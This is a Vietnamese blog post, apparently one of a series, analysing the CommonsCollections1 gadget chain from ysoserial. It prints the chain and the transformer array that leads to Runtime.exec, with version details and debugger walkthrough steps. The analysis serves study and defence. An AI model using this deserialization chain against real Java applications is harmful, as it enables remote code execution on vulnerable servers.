

# CommonsCollections1(CC1)

- Blog này nằm trong series phân tích các payload CommonsCollections trong ysoserial
- Bài đầu tiên này mình sẽ đi phân tích CC1
- Vào source code tạo nên payload CC1 lấy được gadget chain của payload này

```php
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```

- Payload này hoạt động tốt nhất trên **JDK ≤ 8u70** (tức **trước 8u71**) và phải sử dụng thư viện Commons-colletions-3.1
- Ta thử đặt breakpoint ở hàm exec trong Class Runtime
    
    
    
- Bây giờ thực thi chương trình với đầu vào là file payload.bin để debug
    
    
    
- Chương trình bắt đầu thực thi hàm readObject() đồng thời một hàm readObject0() cũng được gọi theo, ta thấy stacktraces trỏ tới vị trí này


- Ở đây ***TC_OBJECT*** được khai báo cùng với các biến khác.


- Sau đó hàm ***readSerialData(obj, desc)*** được được gọi đến, và obj lúc này thuộc ***Class AnnotationInvocationHandler***


- Tại ***readSerialData(obj, desc), invokeReadObject(obj, this)*** được gọi với obj lúc này vẫn là object của class ***AnnotationInvocationHandler*** và this là payload của mình


- Sau đó hàm InvokeReadObject() được gọi. Tại đây biến `readObjectMethod` là một object của class `Method`


- Giá trị của `readObjectMethod` lúc khởi tạo là “readObject”


- Vì `readObjectMethod` là một object của class `Method` sẽ có hàm invoke để trigger hàm `readObject` ở `obj` (`AnnotationInvocationHandler` )

⇒ Ta có thể hiểu rằng `readObjectMethod.invoke(obj, new Object[]{ in });` = `AnnotationInvocationHandler.readObject()`

- Ta có thể thấy lúc này ***this.memberValues*** là 1 `$Proxy0` instance và nó gọi đến entrySet() < = > ***Map(Proxy).entrySet()***


- Hàm ***invoke()*** của ***AnnotationInvocationHandler*** được gọi và ***this.membervalues*** lúc này đã là 1 LazyMap instance → Hàm LazyMap.get() được gọi


- Tại ***LazyMap.get(),*** dễ dàng pass được điều kiện ***map.containsKey(key)***, chỉ cần key không phải là giá trị null


- Ta thấy factory ở đây là một object của ***ChainedTransformer*** nên sẽ gọi đến ***ChainedTransformer.transform()***
- iTransformers ở đây có 5 phần tử là do đoạn này payload

```php
final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };
```


- Đoạn này hoàn toàn giống với đoạn tôi đã phân tích trong CC5: ([Tham khảo](https://www.notion.so/CommonsCollections5-CC5-24c1eb3c27c58048a6d6f904eb71353a?pvs=21))
    
    ```php
    ChainedTransformer.transform()
    								ConstantTransformer.transform()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Class.getMethod()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.getRuntime()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.exec()
    ```
